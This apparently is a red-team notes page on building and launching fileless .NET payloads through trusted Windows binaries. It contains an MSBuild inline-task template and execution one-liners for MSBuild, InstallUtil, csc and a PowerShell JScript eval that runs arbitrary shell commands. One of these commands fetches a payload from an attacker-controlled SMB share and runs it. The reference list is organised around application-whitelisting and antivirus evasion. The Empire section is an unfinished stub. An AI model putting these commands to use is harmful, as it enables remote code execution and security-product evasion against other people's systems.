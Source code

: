 # Manual

## 01 - Generate Payloads

### 1.1 - Empire

TODO: Fill this info

UseStager

CSharp payload

MSFVenom

### 1.2 - MSBuild Template

> [!INFO] Valid Extensions
> These are the valid extensions to execute fileless .NET payload. They are: `.csproj`, `.xml`, `.xoml`.
> > [!TIP]
> > You can combine with a enumeration function to check one of the [[Compilers|compilers]] exist in order to execute the payload and be sure to replace the `AssemblyFile` in `<UsingTask` XML tag.

XML payload template.

```xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
	<Target Name="Hello"> <!--Change this value inside the quotes-->
	<ClassExample /> <!--Change this tag name to match TaskName-->
	</Target>
	<!--Change this value inside the quotes to match the tag name above-->
	<UsingTask TaskName="ClassExample" TaskFactory="CodeTaskFactory" AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
		<Task>
			<Code Type="Class" Language="cs">
			<![CDATA[
			using Microsoft.Build.Framework;
			using Microsoft.Build.Utilities;
			public class <ClassName> :  Task, ITask {
			// C# Code here
			}
			]]>
			</Code>
		</Task>
	</UsingTask>
</Project>
```

## 02 - Execute Payloads

### 2.1 - MSBuild

To execute the .NET payload.

```
C:\> cmd.exe /V /c "set COMPILER="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe" & !COMPILER! /nologo /noconsolelogger /noautoresponse /preprocess \\<attacker_IP>\<share_name>\payload.xml > payload.xml & !COMPILER! payload.xml"
```

### 2.2 - InstallUtil

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\Temp\payload.exe
```

### 2.3 - CSC

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe C:\path\to\payload.cs
```

### 2.4 - JScript

```powershell
[Reflection.Assembly]::LoadWithPartialName('Microsoft.JScript');
$js = 'var js = new ActiveXObject("WScript.Shell");js.Run("<commands>");'
[Microsoft.JScript.Eval]::JScriptEvaluate($js,[Microsoft.JScript.Vsa.VsaEngine]::CreateEngine());
```

---
## References

### Backlinks

- [[DLL Execution]]

### Source Repositories

- [khr0x40sh: WhiteListEvasion](https://github.com/khr0x40sh/WhiteListEvasion)

### LOLBAS

- [LOLBAS: MSBuild](https://lolbas-project.github.io/lolbas/Binaries/Msbuild/)

- [LOLBAS: InstallUtil](https://lolbas-project.github.io/lolbas/Binaries/Installutil/)

- [LOLBAS: CSC](https://lolbas-project.github.io/lolbas/Binaries/Csc/)

- [LOLBAS: Ilasm](https://lolbas-project.github.io/lolbas/Binaries/Ilasm/)

### Hacktricks

- [Hacktricks: Windows Reverse Shells](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/windows.html)

### Red Team Notes

- [Red Team Notes: InstallUtil](https://www.ired.team/offensive-security/code-execution/t1118-installutil)

- [Red Team Notes: Using MSBuild to Execute Shellcode in C#](https://www.ired.team/offensive-security/code-execution/using-msbuild-to-execute-shellcode-in-c)

### Hacking Articles

- [Hacking Articles: Windows Exploitation - MSBuild](https://www.hackingarticles.in/windows-exploitation-msbuild/)

### DMCXBlue

- [DMCXBlue: Compile After Delivery](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/defense-evasion/t0127-obfuscated-files-or-information/compile-after-delivery)

### Secarma

- [Secarma: Three ways of using MSBuild to beat CrowdStrike](https://secarma.com/three-ways-of-using-msbuild-to-beat-crowdstrike/)

### arno0x0x

- [arno0x0x: Windows oneliners to download remote payload and execute arbitrary code](https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/)

### Black Hills Information Security

- [Black Hills Information Security: How to Bypass Application Whitelisting & AV](https://www.blackhillsinfosec.com/how-to-bypass-application-whitelisting-av/)

### 0xsp

- [0xsp: handy techniques to bypass environment restrictions](https://0xsp.com/offensive/handy-techniques-to-bypass-environment-restrictions/)